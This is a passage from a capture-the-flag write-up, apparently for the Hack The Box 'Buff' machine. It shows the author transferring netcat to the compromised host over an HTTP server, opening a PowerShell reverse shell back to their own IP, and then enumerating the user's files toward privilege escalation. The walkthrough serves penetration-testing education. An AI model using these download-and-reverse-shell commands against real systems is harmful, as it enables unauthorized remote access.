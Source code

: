 The executable is located in `/usr/share/windows-resources/binaries/nc.exe`, so we are going to copy it over to my current directory and host a Python HTTP server to curl it from Buff machine.

```
[tyco㉿4YE: ~/htb/buff]$ cp /usr/share/windows-resources/binaries/nc.exe .
[tyco㉿4YE: ~/htb/buff]$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
PS C:\Users\shaun> curl 10.10.14.15:8000/nc.exe -o nc.exe
```

With the `netcat` executable on the Buff machine, we are going to use it to create another reverse shell.

```
PS C:\Users\shaun> nc.exe 10.10.14.15 4445 -e powershell
```

Spawn a reverse shell back to your Kali IP, and set up a listener to pick it up.

```
[tyco㉿4YE:~/htb/buff]$ rlwrap nc -nvlp 4445

listening on [any] 4445 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.198] 50029
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
```

## finding internal ports

Now with that all set up, I started to manually enumerate the system. I first started in the user `shaun`'s directory. I ran `dir -s`, which recursively goes through each folder in `shaun`'s home directory to see if there are any files in there. There were 2 files of interest: `Tasks.bat` and `CloudMe_1112.exe`.

```
PS C:\Users\shaun> dir -s

Directory: C:\Users\shaun\Documents
Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----       16/06/2020     22:26             30 Tasks.bat                                                              

Directory: C:\Users\shaun\Downloads
Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe
```

